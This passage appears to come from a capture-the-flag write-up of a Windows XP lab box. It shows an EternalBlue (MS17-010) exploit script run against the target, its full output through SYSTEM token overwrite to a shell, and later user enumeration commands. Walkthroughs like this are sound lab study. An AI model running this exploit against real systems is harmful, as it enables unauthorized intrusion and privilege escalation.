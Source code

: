 Check the repo for requirements for the scripts.

:::

I tried the the following scripts first, but all said the host didn't support that exploit:

* `eternalblue_exploit7.py`
* `eternalblue_exploit8.py`
* `eternalblue_exploit10.py`

Only `zzz_exploit.py` that worked for me on this box:

```bash
└─$ python3 zzz_exploit.py 10.10.10.4                                                                           2 ⨯
[*] Target OS: Windows 5.1
[+] Found pipe 'browser'
[+] Using named pipe: browser
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x822d7da8
SESSION: 0xe22f3c18
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
[*] make this SMB session to be SYSTEM
[+] current TOKEN addr: 0xe1b761c0
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe1b76260
[*] overwriting token UserAndGroups
[*] have fun with the system smb session!
[!] Dropping a semi-interactive shell (remember to escape special chars with ^) 
[!] Executing interactive programs will hang shell!
C:\WINDOWS\system32>
```

Awesome, we have a shell!

What can we do? Let's find the user flag:

```bash
C:\WINDOWS\system32>net user

User accounts for \\

-------------------------------------------------------------------------------
Administrator            Guest                    HelpAssistant            
john                     SUPPORT_388945a0         
The command completed with one or more errors.


C:\WINDOWS\system32>cd C:\Users\john
ERROR:root:You cant CD under SMBEXEC. Use full paths.
C:\WINDOWS\system32>

C:\WINDOWS\system32>net use
New connections will be remembered.

There are no entries in the list.


C:\WINDOWS\system32>net session
```